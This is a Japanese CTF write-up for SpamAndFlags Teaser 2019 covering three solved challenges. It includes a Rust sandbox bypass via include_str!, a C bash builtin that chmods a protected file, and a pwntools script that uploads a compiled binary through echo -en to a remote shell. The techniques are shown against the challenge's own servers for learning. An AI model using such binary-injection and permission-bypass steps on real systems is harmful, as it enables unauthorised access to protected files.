 ```yaml
---
layout: post
title: SpamAndFlags Teaser 2019 の write-up
categories: [ctf]
date: 2019-04-09 22:05:00 +0900
---
```


4 月 7 日から 4 月 8 日にかけて開催された [SpamAndFlags Teaser 2019](https://spamandhex.com/ctf/) に、チーム Harekaze として参加しました。最終的にチームで 637 点を獲得し、順位は得点 176 チーム中 12 位でした。うち、私は 3 問を解いて 637 点を入れました。

以下、私が解いた問題の write-up です。

## null
### Sanity Check (10)
> A flag is hidden for you right on this page!

スコアボードのソースを見るとフラグが得られました。

```html
︙
<head>
    <meta charset="utf-8" />
    <title>SpamAndFlags</title>
    <link rel="stylesheet" href="app.min.css" type="text/css" />
    <script src='https://www.google.com/recaptcha/api.js?render=6LdJP4kUAAAAAKlB51UiqmQvVdRA72JGFBhYvO9v' data-recaptcha-script async defer></script>
    <script src="scripts/fetchhelper.js" type="text/javascript"></script>
    <script src="moment/moment.js" type="text/javascript"></script>
    <script src="app.js" type="text/javascript"></script>
    <!-- SaF{DontComplainThatFlagSubmissionDoesntWork} -->
</head>
︙
```

```
SaF{DontComplainThatFlagSubmissionDoesntWork}
```

## pwn
### Rust Jail (294)
> If you don't believe Rust is a perfectly safe language:
> nc 35.195.157.187 1337

`35.195.157.187:1337` に接続してみます。

```
$ nc 35.195.157.187 1337
Solve PoW with: hashcash -mqb26 sbndlgnc
1:26:190407:sbndlgnc::9b35BPX6eWycpsQ0:00000000E8gX5
Rust is safe, you cannot dereference raw pointers safely. Or can you?
We will compile and run the following code with your snippet like this:
rustc -o {output} {input}
Rust is at version 1.33.0 (stable) and it's running on Ubuntu 18.04 (amd64).
There are some additional protections in place to make it not trivial:
some syscalls are forbidden (clone, ...), there is no procfs and you will
not find the source code or the binary.
Please submit your code snippet and then a line containing "EOF".

#![forbid(unsafe_code)]
fn main() {
    // We remove our own binary before running your code
    std::fs::remove_file("/tmp/x").unwrap();

    #[allow(unused_variables)]
    let flag: *const str = "SaF{The real flag will be here}";

    // Your code snippet will be inserted here
}
```

PoW を解くと問題文が出てきました。`unsafe` が許されない状況で `flag` の読み出しができればよいようです。

Rust では [`file!` マクロ](https://doc.rust-lang.org/std/macro.file.html)を使うと、このマクロが呼ばれたファイルのパスを得られます。`println!("{}", file!());` でソースコードのパスを確認しましょう。

```
︙
Compiling...
Running...
/tmp/x.rs
```

`/tmp/x.rs` のようです。Rust では [`include_str!` マクロ](https://doc.rust-lang.org/std/macro.include_str.html)を使うと、これに引数として与えたファイルの内容を文字列として置き換えます。`println!("{}", include_str!("/tmp/x.rs"));` でフラグの含まれているソースコードが得られないでしょうか。

```
︙
Compiling...
Running...
#![forbid(unsafe_code)]
fn main() {
    // We remove our own binary before running your code
    std::fs::remove_file("/tmp/x").unwrap();

    #[allow(unused_variables)]
    let flag: *const str = "SaF{What?_The_compiler_proved_the_code_is_safe...}
";

println!("{}", include_str!("/tmp/x.rs"));
```

フラグが得られました。

```
SaF{What?_The_compiler_proved_the_code_is_safe...}
```

## misc
### Rescue shell (333)
> We have accidentally `rm -rf /`-d the whole machine, but fortunately the most important data file was chmod 000, so it was not deleted*. We also did not restart the machine, so all you have is what's in memory. Can you get the file back? 
> * Yeah, we know it does not work that way 
> nc 34.76.252.188 1337

`34.76.252.188:1337` に接続してみます。

```
$ nc 34.76.252.188 1337
Connecting...
Oh no, everything was deleted, except for /flag!
You only have 10 minutes until the system powers off.
What to do now?
(This shell isn't even interactive, but here's a prompt for you I guess)
root@OH-NO:/# ls
/bin/bash: line 1: ls: command not found
echo *
flag proc
```

当然ながら `ls` も消えてしまっているようです。`echo *` でなんとかカレントディレクトリのファイルの一覧を取得することができました。`echo $(<flag)` で `flag` の表示を試みます。

```
echo $(<flag)
/bin/bash: line 6: flag: Permission denied
```

`Permission denied` と言われてしまいました。`chmod` 等を復活させて `flag` に読み取り権限を付与することができないでしょうか。

いろいろググっていると [rm -rf remains](http://lambdaops.com/rm-rf-remains/) という記事が見つかりました。この記事を参考に `flag` の読み取りを目指してやっていきましょう。

```c
// gcc -Wall -Wextra -pedantic -nostdlib -Os -fpic -shared setx.c -o setx
extern int chmod(const char *pathname, unsigned int mode);

int entry(void) {
        return !! chmod("flag", 0777);
}
char *desc[] = {0};

struct quick_hack {
        char *name; int (*fn)(void); int on;
        char **long_doc, *short_doc, *other;
} setx_struct = { "setx", entry, 1, desc, "chmod 0777 flag", 0 };
```

`gcc -Wall -Wextra -pedantic -nostdlib -Os -fpic -shared setx.c -o setx` でコンパイルします。これを `echo -en "\x7f…" > setx` のように `echo -e` を利用してアップロードし、さらに `setx` の実行をするスクリプトを書きます。

```python
import re
from pwn import *

s = remote('34.76.252.188', 1337)
s.recvuntil('root@OH-NO:/# ')

with open('./setx', 'rb') as f:
  binary = f.read().encode('hex')
binary = '\\x' + '\\x'.join(re.findall(r'.{2}', binary))
command = 'echo -en "' + binary + '" > setx'
s.sendline(command)
s.sendline('enable -f ./setx setx')
s.sendline('setx')

s.interactive()
```

実行します。

```
$ python s.py
[+] Opening connection to 34.76.252.188 on port 1337: Done
[*] Switching to interactive mode
$ echo *
flag proc setx
$ echo $(<flag)
SaF{not_important_if_no_backup_amirite}
$
[*] Interrupted
[*] Closed connection to 34.76.252.188 port 1337
```

フラグが得られました。

```
SaF{not_important_if_no_backup_amirite}
```